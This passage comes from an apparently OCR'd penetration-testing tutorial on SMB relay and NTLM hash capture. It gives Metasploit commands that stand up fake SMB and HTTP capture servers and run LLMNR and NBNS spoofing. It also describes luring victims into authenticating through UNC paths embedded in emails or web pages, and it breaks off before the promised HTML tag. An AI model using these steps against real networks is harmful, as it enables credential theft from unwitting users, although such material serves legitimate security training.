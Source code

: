 #### The only randomness in the protocol is the server challenge (step 2 of the protocol).

#### • Again, we impersonate the server so we control that.

#### There are two methods we can use :

#### • Force the client (target) to start a connection to us (fake server)

#### • Use Man-in-the-Middle techniques in order to sniff the client response

## <mark style="color:red;">SMB Relay with Metasploit</mark>

The first item we need to address in this exploitation process, is to create a listening SMB service that will both accept incoming connections, and send back a fixed challenge. As you can imagine, we use a fixed challenge to help us in decrypting the response. Although there are many tools that allow us to do this, we will use the following Metasploit module:

```
auxiliary/server/capture/smb
```

```
use auxiliary/server/capture/http_ntlm
set JOHNPWFILE httpntlm.txt
run
use auxiliary/server/capture/smb
set JOHNPWFILE smbhashes.txt
run
use auxiliary/spoof/llmnr/llmnr_response
set spoofip 0.0.0.0
set interface vboxnet0
run
use auxiliary/spoof/nbns/nbns_response
set interface vboxnet0
run
```

set the **JOHNPWFILE option** in order to tell Metasploit to automatically save the hashes to a file. Notice that these hashes will be automatically saved and formatted to work with john the ripper.

```
set JOHNPWFILE hashpwd
```

Once the Metasploit listener is set up, we can move on the next step:

One of the easiest ways to force the initiation of the NTLM protocol is through SMB authentication. For example, we can embed a Universal Naming Convention (UNC) path ( \SERVER\_IP\SHARE ) into an email message or a web page.

This again, will force the victim’s system to authenticate to the SMB listener on our machine. The following HTML tag will do just fine:

